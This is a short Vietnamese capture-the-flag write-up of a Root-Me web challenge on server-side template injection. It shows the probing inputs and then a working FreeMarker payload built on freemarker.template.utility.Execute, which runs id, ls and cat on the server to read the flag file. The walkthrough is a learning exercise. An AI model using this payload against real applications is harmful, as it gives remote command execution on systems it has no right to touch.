







Challenge: http://challenge01.root-me.org/web-serveur/ch41/

Vào trang web thử với input bình thường:

Sau đó thử với các input `${7*7}`, `{{7*7}}`, ... và ra kết quả là `${7*7}`

Ở đây ta thấy response trả về có thông tin về engine:

Ta sẽ thử inject 1 lệnh để chạy command trong engine FreeMaker:\
`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

Tiếp tục:
`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls")}`

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat SECRET_FLAG.txt")}`

